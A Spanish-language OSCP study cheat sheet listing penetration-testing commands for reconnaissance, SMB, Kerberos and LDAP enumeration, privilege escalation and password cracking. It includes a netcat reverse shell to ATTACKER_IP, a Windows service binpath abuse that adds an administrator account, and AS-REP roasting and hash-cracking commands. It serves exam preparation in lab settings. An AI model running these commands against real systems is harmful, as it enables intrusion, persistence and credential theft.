 # Security Notes

Guia de comandos y procesos para la preparación del OSCP.
En continua revisión y actualización

Table of Contents
=================
  * [Table of Contents](#table-of-contents)
  * [<strong>Recon</strong>](#recon)
    * [nmap](#nmap)
    * [Port 21 - FTP](#port-21---ftp)
    * [Port 80 - HTTP](#port-80---http)
    * [Port 88 - Kerberos](#port-88---kerberos)
    * [Port 139/445 - SMB](#port-139445---smb)
    * [Port 389 - LDAP](#port-389---ldap)    
    * [Busqueda Exploits](#busqueda-exploits)
  * [Escalada de privilegios](#escaladadeprivilegios)
    * [Linux](#linux)
      * [Info](#linux-info)
      * [Reverse Shell](#reverse-shell)
    * [Windows](#windows)
      * [Info](#windows-info)
      * [Abusing UsoSvc](#abusing-usosvc)
  * [Cracking](#cracking)
  * [Tunnel SSH](#tunel-ssh)


[comment]: # (brup suite, vega, webscarab,ua-tester, ssh-keyscan)

# **Recon**

## nmap
``` 
# Escaneo nmap
nmap -sV -sC 10.10.10.10

# Escaneo nmap
nmap -sV -sC 10.10.10.10 -Pn

# Escaneo nmap UDP
nmap -sV -sC -sU 10.10.10.10

# Nmap Scripts
nmap -sV --script http-vuln-cve2006-3392 -p10000 10.10.10.10
```

## Port 21 - FTP
```
ftp 10.10.10.10
```

## Port 80 - HTTP
```
#Busqueda directorios HTML
dirb http://10.10.10.10 /usr/share/dirb/wordlists/big.txt

wfuzz

dirsearch
```

## Port 88 - Kerberos
```
# Del packete impacket
GetNPUsers.py DOMAIN/ -dc-ip 10.10.10.10 -usersfile users 
```
## Port 139/445 - SMB
```

enum4linux -a 10.10.10.10

smbclient -L 10.10.10.10

# Ejecutar comando *dir* 
smbclient -U=USERNAME%PASSWORD  "//10.10.10.10/SHARENAME" -c dir

smbclient.py -u user -p password -i 10.10.10.10

smbclient.py DOMAIN/USERNAME:PASSWORD@10.10.10.10

smbmap -u user -p password -H 10.10.10.10

# Montar en local un CIFS
mount -t cifs -o username=USERNAME,password=PASSOWRD "//10.10.10.10/SHARENAME" /mnt/smbmounted/

```

## Port 389 - LDAP
```
ldapsearch -H ldap://10.10.10.175:3268 -x
```

## Busqueda Exploits
```

searchsploit

```

# Escalada de privilegios

## linux

### Info
```
cat /etc/passwd

sudo -l

```

### Reverse Shell
```

netcat
Attacker: nc -lvp 4444
Victim: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f

```


## windows

winpeas, powerup.ps1, evil-winrm, impacket(secretsdump.py, wmiexec.py)
Se puede entrar con el user/password pero tambien con el hash

### Info
```
net user
net user USERNAME

net domain
```

### Abusing UsoSvc

```
sc query UsoSvc

sc qc UsoSvc

sc.exe stop UsoSvc

sc.exe config UsoSvc binpath= "C:\Windows\System32\cmd.exe /c net user john Password123 /add && net localgroup Administrators john /add" 

sc.exe start UsoSvc
```

# Cracking

Poner el tema de las rules, transformar fichero to hash ("ssh2hohn").
hashid para identificar hashes

```
# Crackear el fichero *privateKey.hash* con el diccionario rockyou.txt
john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt privateKey.john

# Cracking with hashcat 
hashcat -m 18200 -a 0 ./fsmith.creds /usr/share/wordlists/rockyou.txt
```
La página web de [Cyberchef](https://gchq.github.io/CyberChef/)

# Tunel SSH

```
# Tunel SSH
```
